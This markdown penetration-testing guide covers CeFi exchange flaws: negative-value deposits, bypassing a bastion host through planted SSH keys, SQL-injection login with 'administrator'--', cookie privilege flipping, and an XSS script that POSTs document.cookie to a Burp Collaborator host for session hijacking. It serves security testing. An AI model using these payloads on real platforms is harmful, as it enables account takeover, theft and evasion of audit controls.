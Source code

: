 # Risks in Cefi
Penetration testing for CeFi platforms involves addressing information leakage, account security, system security, and business scenario security risks.

### Introduction:
CeFi penetration testing refers to a comprehensive security assessment of the systems, networks, and applications of centralized financial institutions by simulating real hacker attacks. Through such testing, potential vulnerabilities can be discovered and fixed, and network security defenses can be strengthened to ensure that the assets and data of financial institutions and users are adequately protected. We're going to outline some of the penetration steps involved with CeFi.

### Order book value payment vulnerability:
In a certain exchange's deposit application, the value range of recharge data is not validated, leading to a negative value chargeback vulnerability in transactions.
![Image text](/pic/cefi1.png)

Step 1: Inputting a negative value.

![Image text](/pic/cefi2.png)

Step 2: After clicking on the confirmation, the two negative values can be reversed and turned into positive values.

![Image text](/pic/cefi3.png)

The recharge interface lacks proper validation and filtering of numerical symbols, which poses a certain security risk.

### Bastion host bypass：
Step 1: First, access Server_A 192.168.31.18 through the bastion host. Since the root password is managed by the bastion host, the root password for Server_B 192.168.31.232 is unknown. 

Employees can establish passwordless login by using the following command: ssh-keygen -b 2048.

![Image text](/pic/cefi4.webp)

Step 2: Access Server_B 192.168.31.232 once again through the bastion host. 

Import the generated public key from the previous step into the "/root/.ssh/authorized_keys" file on 192.168.31.232.

![Image text](/pic/cefi1.png)

Step 3: By following the above steps, accessing Server_B can be done by first accessing Server_A through the bastion host, and then directly SSHing from Server_A to Server_B.

![Image text](/pic/cefi5.avif)

While operations on Server_A can be audited through the bastion host (through session recording), let's assume that Server_A is not managed by the bastion host, and only Server_B is managed. In this case, bypassing the bastion host would result in all administrative operations on Server_B not being audited or recorded.

### Arbitrary user login：
Login bypass is one of the impacts of SQL injection, where an attacker can log in to a vulnerable web application without valid credentials. Attackers exploit SQL injection vulnerabilities to bypass the login functionality and gain access to administrator accounts without a valid password.

![Image text](/pic/cefi6.png)

Step 1: Enter the account name as "administrator" and set an arbitrary password. At this point, start capturing network traffic (packet capture).

![Image text](/pic/cefi7.png)

Step 2: After sending the packet, the login page displays a login failure message.

![Image text](/pic/cefi8.png)

Step 3: Modify the username parameter to "administrator'--".

![Image text](/pic/cefi9.png)

Successfully logged into the system.

![Image text](/pic/cefi10.png)

Regardless of whether 'administrator' is a valid username, the response always returns true, and the '--' comments out the rest of the statement. In the mentioned query, since the condition "AND password = 'password'" is commented out, and the username is "administrator", it will log in to the administrator account. If one can determine a user's account, arbitrary user login can be performed.

### Unauthorized access：

![Image text](/pic/cefi11.png)

Step 1: In Burp Proxy, open Intercept and enable response interception.

![Image text](/pic/cefi12.png)

Step 2: Modify the cookie in the response settings from "Admin=false" to "Admin=true".

![Image text](/pic/cefi13.png)

At this point, the elevation of privileges from a regular user to an administrator level has occurred.

![Image text](/pic/cefi14.png)

You can now perform administrative actions in the management panel.

![Image text](/pic/cefi15.png)

### Cookie reuse：
Currently, there is an XSS vulnerability on the comment page, which allows for the theft of cookies when a victim user views that comment. 

Step 1: Inject XSS attack code into the comment section.

<script>

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {

method: 'POST',

mode: 'no-cors',

body:document.cookie

});

</script>

Step 2: Fill in the relevant email information and submit.

![Image text](/pic/cefi16.png)

Step 3: Use Burp Collaborator to listen for the victim's cookie information.

![Image text](/pic/cefi17.png)

At this point, you have obtained the value of the victim's cookie in the POST request packet.

![Image text](/pic/cefi18.png)

Step 4: Replace the captured victim's cookie with the obtained value.

![Image text](/pic/cefi19.png)

Successful login to the victim's account.

![Image text](/pic/cefi20.png)
